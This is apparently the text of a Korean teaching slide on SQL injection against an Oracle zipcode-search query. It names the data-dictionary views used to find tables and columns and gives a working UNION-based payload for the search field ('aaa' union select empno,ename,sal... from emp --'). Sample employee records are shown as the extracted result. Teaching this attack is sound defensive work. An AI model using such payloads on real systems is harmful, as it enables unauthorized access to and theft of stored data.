

*정보 탈취할 테이블에서 검색수행
생성된 쿼리문

Select zipcode,sido,gugun,dong,bunji
from zipcode
where dong like ‘상도동%’;

0.DD 지식
 테이블명을 검색 DD : tab
 테이블에 존재하는 컬럼 정보 얻는 DD : user_tab_cols

3.정보가 있을 만한 테이블의 컬럼 정보를 얻기

Select zipcode,sido,gugun,dong,bunji
from zipcode
where dong like ‘aaaa‘ union select empno,ename,sal||’0’,’0’,’0’ from emp -- %’;

Injection이 되어 실행되면 탈취할 테이블의 레코드가 검색된다. => 정보탈취
  1111,스캇,3000,0,0
 1112,윤상준,3200,0,0
 1113,’김사원’,2220, 0, 0

동이름
aaa’ union select empno,ename,sal||’0’,’0’,’0’ from emp --

검색